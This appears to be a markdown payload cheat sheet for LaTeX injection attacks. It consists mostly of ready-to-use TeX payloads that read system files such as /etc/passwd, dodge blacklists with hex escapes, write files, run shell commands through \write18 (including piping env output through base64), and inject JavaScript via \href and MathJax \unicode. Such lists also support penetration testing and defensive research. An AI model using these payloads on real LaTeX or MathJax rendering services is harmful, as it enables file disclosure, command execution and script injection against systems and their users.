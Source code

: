 # LaTex Injection

You might need to adjust injection with wrappers as `\[` or `$`.

## Read file

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\opening\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\opening\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

## Write file

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## Command execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

in [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```


## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
